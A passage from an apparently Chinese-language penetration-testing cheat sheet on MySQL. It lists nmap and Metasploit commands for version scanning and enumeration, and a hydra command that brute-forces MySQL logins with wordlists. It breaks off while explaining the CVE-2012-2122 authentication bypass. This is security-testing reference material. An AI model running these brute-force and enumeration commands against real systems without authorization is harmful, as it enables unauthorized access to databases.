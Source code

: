|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```cmd<br>nmap:<br>nmap -sV -p 3306 IP<br>msf:<br>use auxiliary/scanner/mysql/mysql_version<br>``` |

#### [](#%E5%85%B6%E5%AE%83%E7%9B%B8%E5%85%B3%E4%BF%A1%E6%81%AF)其它相关信息

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>use auxiliary/admin/mysql/mysql_enum<br>``` |

### [](#mysql-%E5%AF%86%E7%A0%81%E7%A0%B4%E8%A7%A3)Mysql 密码破解

#### [](#hydra-4)hydra

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>hydra -L user.txt -P password.txt -v mysql://IP<br>``` |

#### [](#msf-8)msf

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>use auxiliary/scanner/mysql/mysql_login<br>``` |

### [](#mysql-%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8)Mysql 漏洞利用

#### [](#mysql-%E8%BA%AB%E4%BB%BD%E8%AE%A4%E8%AF%81%E6%BC%8F%E6%B4%9Ecve-2012-2122)MySQL 身份认证漏洞 (CVE-2012-2122)

[https://seclists.org/oss-sec/2012/q2/493](https://seclists.org/oss-sec/2012/q2/493)

memcmp() 的返回值都在\[127，-128\]之内，把两个字符串逐个字符的比较，如果找到不一样的，就把这两个字符相减后返回

memcmp() 返回 0 的时候 check\_scramble() 认证通过
